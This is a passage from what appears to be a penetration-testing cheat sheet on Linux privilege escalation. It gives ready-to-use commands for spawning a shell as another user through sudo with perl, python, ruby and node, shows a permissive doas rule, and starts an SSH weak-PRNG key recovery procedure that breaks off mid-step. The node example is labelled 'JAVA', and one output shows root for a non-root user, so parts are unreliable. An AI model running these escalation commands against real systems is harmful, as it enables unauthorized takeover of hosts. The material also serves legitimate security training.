 ```bash
sudo -u victim perl -e 'system("/bin/bash")'
```

#### If you have privilege to run PYTHON as other user

```python
sudo -u victim python

>>> from subprocess import call
>>> call('id')
uid=0(root) gid=0(root) groups=0(root)
>>> call('/bin/bash')
```

#### If you have privilege to run RUBY as other user

```ruby
sudo -u victim /usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'

irb(main):005:0> `id` #(test to see user context)
=> "uid=1001(victim) gid=1001(victim) groups=1001(victim)\n"
irb(main):005:0> `"/bin/bash"`
```

#### If you have privilege to run JAVA as other user

```java
sudo -u victim node -e "var exec = require('child_process').exec;
exec('$COMMAND', function (error, stdOut, stdErr) {
console.log(stdOut);
});"
```

## doas (OpenBSD)

There are some alternatives to `sudo` such as `doas` for OpenBSD. You can check its configuration in `/etc/doas.conf`.  This configuration has a different syntax than `/etc/sudoers`.&#x20;

```bash
#this is the same as the /etc/sudoers example with NOPASSWD
permit nopass zweilos as root cmd vim
```

## SSH

### SSH Predictable PRNG (Authorized\_Keys) Key Recovery Process

This module describes how to attempt to use an obtained `authorized_keys` file on a host system to login to a remote host by using a SSH-DSS string.

**Steps**

1. Get the `authorized_keys` file from the victim's system.  An example of this file would look like:
